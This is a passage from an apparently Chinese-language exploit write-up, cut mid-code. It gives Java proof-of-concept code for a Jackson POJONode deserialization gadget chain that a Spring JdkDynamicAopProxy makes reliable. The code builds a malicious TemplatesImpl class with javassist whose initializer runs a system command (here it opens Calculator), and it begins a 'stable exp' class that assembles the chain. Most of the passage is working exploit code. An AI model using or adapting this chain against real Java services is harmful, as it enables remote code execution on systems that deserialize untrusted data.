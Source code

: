 ```java  
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
    }    
}  
```  
当我们攻击的时候，可能会出现如下错误  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171707627.png)
这是因为 Jackson 的链子并不稳定，所以需要绕过一下  
https://pankas.top/2023/10/04/%E5%85%B3%E4%BA%8Ejava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADjackson%E9%93%BE%E5%AD%90%E4%B8%8D%E7%A8%B3%E5%AE%9A%E9%97%AE%E9%A2%98/  
稳定版exp  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javassist.*;    
import org.springframework.aop.framework.AdvisedSupport;    
import javax.management.BadAttributeValueExpException;    
import javax.xml.transform.Templates;    
import java.io.*;    
import java.lang.reflect.*;    
import java.util.Base64;    
    
import java.util.UUID;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;,  null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
    
        //利用 JdkDynamicAopProxy 进行封装使其稳定触发    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
        Constructor&lt;?&gt; cons = clazz.getDeclaredConstructor(AdvisedSupport.class);    
        cons.setAccessible(true);    
        AdvisedSupport advisedSupport = new AdvisedSupport();    
        advisedSupport.setTarget(templates);    
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);    
```